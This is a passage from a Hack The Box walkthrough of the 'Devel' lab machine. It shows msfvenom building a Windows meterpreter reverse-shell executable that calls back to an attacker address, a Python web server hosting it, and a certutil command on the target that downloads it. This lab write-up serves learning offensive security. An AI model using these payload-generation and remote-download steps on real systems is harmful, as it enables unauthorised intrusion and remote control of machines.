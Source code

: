 But back on python web server and listner we get a call back 
![image](https://user-images.githubusercontent.com/113513376/213596835-f27052ae-3cd2-429b-924e-5548601af1cb.png)

I'll use metasploit to navigate throught this box 

But before that I need shell access on this box from metasploit

To do that i'll create a binary which when run will give shell access

Using msfvenom to generate the binary 

```
msf6 > msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f exe -o shell.exe
[*] exec: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f exe -o shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
msf6 > 
```

So i'll set a python web server again to transfer the file (shell.exe) 

```                                                                                                      
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ l
cmdasp.aspx  nmapscan  shell.exe  write.html
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Devel]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On the target i'll get the remote file using certutil.exe

```
PS C:\> mkdir C:\windows\temp\haxor


    Directory: C:\windows\temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----         20/1/2023   3:19 ??            haxor                             


PS C:\> cd c:\windows\temp\haxor
PS C:\windows\temp\haxor> certutil.exe -urlcache -f http://10.10.16.7/shell.exe shell.exe


****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\windows\temp\haxor> PS C:\windows\temp\haxor> dir


    Directory: C:\windows\temp\haxor


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         20/1/2023   3:23 ??      73802 shell.exe                         


```